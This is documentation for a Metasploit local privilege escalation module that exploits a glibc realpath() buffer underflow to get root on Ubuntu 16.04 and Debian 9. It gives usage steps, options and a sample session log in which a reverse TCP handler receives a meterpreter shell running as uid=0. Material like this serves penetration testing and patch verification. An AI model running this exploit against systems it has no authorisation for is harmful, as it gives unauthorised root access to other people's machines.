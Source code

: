 ## Description

  This module attempts to gain root privileges on Linux systems by abusing
  a vulnerability in GNU C Library (glibc) version 2.26 and prior.

  This module uses halfdog's RationalLove exploit to exploit a buffer
  underflow in glibc realpath() and create a SUID root shell. The exploit
  has offsets for glibc versions `2.23-0ubuntu9` and `2.24-11+deb9u1`.

  The target system must have unprivileged user namespaces enabled.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu Linux 16.04.3 (x86_64) with glibc version `2.23-0ubuntu9`
  * Debian 9.0 (x86_64) with glibc version `2.24-11+deb9u1`


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/glibc_realpath_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)

### COMPILE

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Scenarios

  ```
  msf > use exploit/linux/local/glibc_realpath_priv_esc 
  msf exploit(linux/local/glibc_realpath_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/glibc_realpath_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.DhRxy0FQR.c' (35470 bytes) ...
  [*] Writing '/tmp/.Piya56UZVV' (207 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.171

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.171
  OS           : Ubuntu 16.04 (Linux 4.10.0-28-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

